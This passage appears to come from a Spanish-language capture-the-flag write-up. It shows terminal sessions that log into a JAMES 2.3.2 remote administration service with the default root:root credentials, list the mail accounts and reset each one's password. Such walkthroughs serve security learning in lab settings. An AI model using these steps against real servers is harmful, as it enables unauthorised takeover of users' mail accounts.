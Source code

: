 Nos `conectamos` usando las `credenciales` por defecto `root:root`

```
# nc -nv 10.129.188.225 4555
(UNKNOWN) [10.129.188.225] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
quit
Bye
```

`Listamos usuarios` y les `cambiamos` la `contraseña` a todos ellos

```
# telnet 10.129.188.225 4555
Trying 10.129.188.225...
Connected to 10.129.188.225.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword james test
Password for james reset
setpassword thomas test
Password for thomas reset
setpassword john test
Password for john reset
setpassword mindy test
Password for mindy reset
setpassword mailadmin test
```
